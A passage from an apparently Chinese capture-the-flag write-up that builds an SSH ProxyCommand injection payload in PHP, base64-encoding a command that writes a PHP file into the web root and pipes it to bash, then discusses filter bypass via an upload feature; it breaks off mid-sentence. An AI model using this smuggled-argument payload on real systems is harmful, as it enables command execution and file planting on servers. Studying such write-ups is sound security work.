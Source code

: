 

## 题目攻击点测试

生成payload脚本为

```
&lt;?php
$payload = "echo '&lt;?php phpinfo();' &gt; /var/www/html/user/sky.php";
$encoded_payload = base64_encode($payload);
$server = "any -o ProxyCommand=echot".$encoded_payload."|base64t-d|bash";
echo $server;
```

得到

```
any -o ProxyCommand=echotZWNobyAnPD9waHAgcGhwaW5mbygpOycgPiAvdmFyL3d3dy9odG1sL3VzZXIvc2t5LnBocA==|base64t-d|bash
```

我们测试一下

[![](https://p4.ssl.qhimg.com/t01002794cf3850bcc9.png)](https://p4.ssl.qhimg.com/t01002794cf3850bcc9.png)

发现参数不被允许提醒，此时猜测是不是存在过滤，我们测试一下

[![](https://p3.ssl.qhimg.com/t0144a3d37109195c18.png)](https://p3.ssl.qhimg.com/t0144a3d37109195c18.png)

[![](https://p1.ssl.qhimg.com/t013564ca883a658123.png)](https://p1.ssl.qhimg.com/t013564ca883a658123.png)

[![](https://p4.ssl.qhimg.com/t0147d79c83175983f8.png)](https://p4.ssl.qhimg.com/t0147d79c83175983f8.png)

发现

```
base64,|,
```

均被过滤，那么既然如此，该如何进行任意文件写入呢？



## upload助攻

此时不难想起，之前还有一个上传功能，路径如下

```
$dir = './user/'.$username.'.jpg';
```

我们是已知文件名和路径的，那么能否在文件内容做文章，进行运用？

这里不难想到，可以直接使用`bash filename`

例如
